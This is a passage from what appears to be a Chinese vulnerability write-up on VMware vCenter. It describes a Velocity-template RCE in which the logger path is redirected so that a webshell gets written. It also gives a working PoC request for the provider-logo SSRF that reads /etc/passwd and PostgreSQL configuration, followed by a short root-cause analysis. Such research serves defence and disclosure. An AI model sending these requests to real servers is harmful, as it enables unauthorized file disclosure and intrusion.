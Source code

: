 最终通过`VelocityHelper.executeVelocityExpression` 触发 `velocity` 表达式执行。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205081747127.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205081747127.png-water_print")

最终 `@testbnull` 发现可以通过上下文可用的 `$GLOBAL-logger`，利用 `setFile` 方法临时修改日志路径到 Web 路径的方式，写入 WebShell 实现 RCE。

### [](#26-provider-logo-ssrf-%E6%BC%8F%E6%B4%9E)2.6 provider-logo SSRF 漏洞

#### [](#261-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)2.6.1 漏洞利用

VMware vCenter v 7.0.x 的某些版本中存在未授权 SSRF 漏洞，可以读取本地文件造成敏感信息泄露；读取远程文件形成 XSS 漏洞。

POC & EXP：

-   `/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-ssrf.yaml`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```http<br>GET /ui/vcav-bootstrap/rest/vcav-providers/provider-logo?url=file:///etc/passwd HTTP/1.1<br>Host: {{target}}<br>``` |

读取 `/etc/passwd`：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091604009.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091604009.png-water_print")

读取 postgresql 配置文件：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091652926.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091652926.png-water_print")

#### [](#262-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90)2.6.2 漏洞分析

漏洞 url 为 `/ui/vcav-bootstrap/rest/vcav-providers/provider-logo`，通过 500 错误获取代码调用栈，最后在 `ProvidersController.getProviderLogo` 执行时出错。定位到相关 jar 包：`/etc/vmware/vsphere-ui/cm-service-packages/com.vmware.cis.vsphereclient.plugin/com.vmware.h4.vsphere.client-0.4.1.0/plugins/h5-vcav-bootstrap-service.jar`。
